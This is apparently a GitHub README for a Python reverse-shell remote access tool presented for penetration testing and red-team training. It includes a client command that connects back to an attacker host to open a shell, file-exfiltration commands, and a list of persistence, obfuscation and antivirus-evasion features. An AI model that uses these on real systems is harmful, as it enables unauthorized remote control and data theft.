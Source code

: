 # 🕳️ Reverse Shell – Python Remote Access Tool (RAT)

## 📌 Project Overview

The **Reverse Shell** is a Python-based remote access utility crafted for ethical hacking, penetration testing, and red-team simulation. It allows an attacker (authorized tester) to **remotely execute system commands** on a target machine after establishing a **reverse TCP connection**.

Unlike bind shells, which require open ports on the target, reverse shells initiate the connection from the victim to the attacker's listener—**bypassing firewall restrictions and NAT** in many cases.

> ⚠️ **DISCLAIMER**: This tool is developed strictly for **educational purposes**, **red team simulations**, and **authorized penetration testing only**. Unauthorized use is illegal and unethical.

---

## 🧠 Key Features

- 📡 **Reverse TCP Connectivity** (client connects to server)
- 💻 **Command Execution** (run shell commands remotely)
- 📂 **File Upload/Download Support**
- 🔁 **Persistent Loop** (interactive shell)
- 🔒 **Customizable Port & Host Settings**
- 🧵 **Multithreaded Listener (optional enhancement)**

---

## 🛠️ Technology Stack

| Component   | Details                                                                            |
|-------------|-------------------------------------------------------------------------------------|
| Language    | Python 3                                                                           |
| Libraries   | `socket`, `os`, `subprocess`, `threading`, `base64`, `json` (for structured comms) |
| OS Support  | Linux, Windows, macOS                                                              |
| Mode        | TCP socket-based                                                                   |

---

## 🧪 How It Works

### 1. Attacker starts the **listener (server)**
```bash
python3 server.py
# or with specific IP/Port
python3 server.py --host <your_ip> --port 4444
```

### 2.Victim executes the payload (reverse shell client)
```bash
This could be manually executed or delivered via a payload in a simulated scenario:
# both IP/Port should be same in server & client side
python3 client.py --host <attacker_ip> --port <attacker_port>
```
---
## 📂 File Transfer Support (Optional Enhancement)
Upload (send file to victim):
```bash
upload /path/to/local/file.txt
```
Download (retrieve file from victim):
```bash
download C:\\Users\\victim\\file.txt
```
---
## 🔐 Security Considerations
|Feature	               |  Details                                              |
|------------------------|-------------------------------------------------------|
|🔒 Encrypted payloads   |	Optionally encode payloads in base64 or AES          |
|🧅 Obfuscation    	     |  Use variable obfuscation or sleep intervals          |
|🔁 Persistence	       |  Optional: register to autorun on startup             |
|🔍 Evasion             |   Mimic legitimate system processes or rename script  |

These features should only be used in legal, ethical testing environments.

## 🚀 Setup Instructions
---
Install dependencies
Most scripts only require built-in libraries:
```bash
python3 --version
```
**Run attacker-side listener**
```bash
python3 listener.py
```
**Deploy or test reverse shell client**
```bash
python3 reverse_shell.py
```
---
## 🧠 Use Cases

- 🔴 **Red Team Operations**
- 🧪 **Penetration Testing Labs**
- 🎓 **Cybersecurity Training**
- 🧰 **Tool Development in Adversary Simulation**
- 📖 **Learning C2 (Command and Control) Concepts**

---

## 🚫 Legal & Ethical Use

- ❗ **This software is to be used only under the following circumstances:**
- You own the target machine
- You have explicit written permission to test the target
- You're operating in a controlled lab or CTF environment

Misuse of this software can lead to criminal prosecution. The author assumes no responsibility for any unauthorized or malicious use.

## 🛠️ Future Enhancements
- AES or RSA encrypted communication
- Polymorphic payload generator
- GUI shell controller (e.g., PyQT interface)
- Reverse HTTPS support
- Port to Go or Rust for AV evasion

## 🧾 License
**This project is licensed under the MIT License and intended for educational, ethical testing only.**

